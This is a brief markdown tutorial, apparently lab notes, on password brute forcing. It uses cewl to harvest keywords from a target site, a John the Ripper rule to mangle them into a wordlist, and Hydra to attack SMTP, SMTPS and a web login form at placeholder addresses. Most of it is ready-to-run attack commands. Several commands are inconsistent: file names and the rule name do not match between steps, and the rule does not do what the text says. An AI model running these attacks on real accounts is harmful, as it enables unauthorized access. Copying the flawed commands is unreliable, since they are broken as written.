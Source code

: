 # Example Bruce Force Password Attack
How to generate a password list using custom rules for use in brute force attacks.

## Step 1: Crawl Website for Keywords
Crawl the website using `cewl` . This command will search for words at least 8 characters long, and save the output to `target.lst`.

`cewl -m 8 -w target.list https://target.com`

## Step 2: Add Password Rules
If you know the company enforces a password policy you can start to write your own rules using `john the ripper`. The following rule will take a password list and append a special character to the begining.

/opt/john/john.conf
```
[List.Rules:thm]
Az"[0-9][0-9]" ^[!@]
```
## Step 3: Genrate a Wordlist
Use john the ripper to generate a wordlist using the rule you created.

`john --wordlist=target.lst -rules=rulename --stdout > results.txt`

## Step 4: Bruce Force With Hydra
Perform a simple brute force on an ip.

`hydra -l username@email.com -P results.txt smtp://10.10.10.10:25`
`hydra -l username@email.com -P results.txt smtps://10.10.10.10:465`

## Attack Web Page
`hydra -l username -P results.txt 10.10.10.10 http-get-form "form.php:username=^USER^&password=^PASS^:logout.php" -f
If you know the username you can specify it with `-l username`
You will need to analyze the web page for indicators of success and failures. Enter them in the success or fail conditions
`S=logout.php`
`F=failed`
`-f` Stop after password found.

